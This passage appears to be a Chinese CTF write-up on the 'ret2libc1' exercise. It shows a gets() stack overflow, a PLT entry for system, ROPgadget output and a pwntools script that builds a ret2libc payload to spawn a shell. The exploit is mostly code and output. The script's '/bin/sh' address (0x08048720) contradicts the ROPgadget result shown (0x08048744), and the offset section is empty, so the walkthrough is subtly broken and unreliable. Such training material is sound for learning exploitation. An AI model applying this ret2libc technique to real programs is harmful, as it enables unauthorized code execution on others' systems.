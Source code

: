 ### 确定漏洞位置
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

### 计算偏移

### 寻找跳板
1. system_plt
```
.plt:08048460 _system         proc near               ; CODE XREF: secure+44p
.plt:08048460                 jmp     ds:off_804A018
.plt:08048460 _system         endp
```
2. 'binsh'
```
$ ROPgadget --binary ret2libc1 --string '/bin/sh'
Strings information
============================================================
0x08048744 : /bin/sh
```

### pwn测试
```python
from pwn import *

p = process('./ret2libc1')

offset =112
binsh = 0x08048720
system_plt = 0x08048460
fake_ret = 'bbbb'

payload = flat(['a'*offset,system_plt,fake_ret,binsh])

p.sendline(payload)
p.interactive()
```

fake_ret是调用system之后的返回地址，binsh就是system的参数

## 2. 没有binsh
需要我们自己来读取字符串，所以我们需要两个 gadgets，第一个控制程序读取字符串，使用gets将'/bin/sh'写入程序某个位置，第二个控制程序执行 system("/bin/sh")。
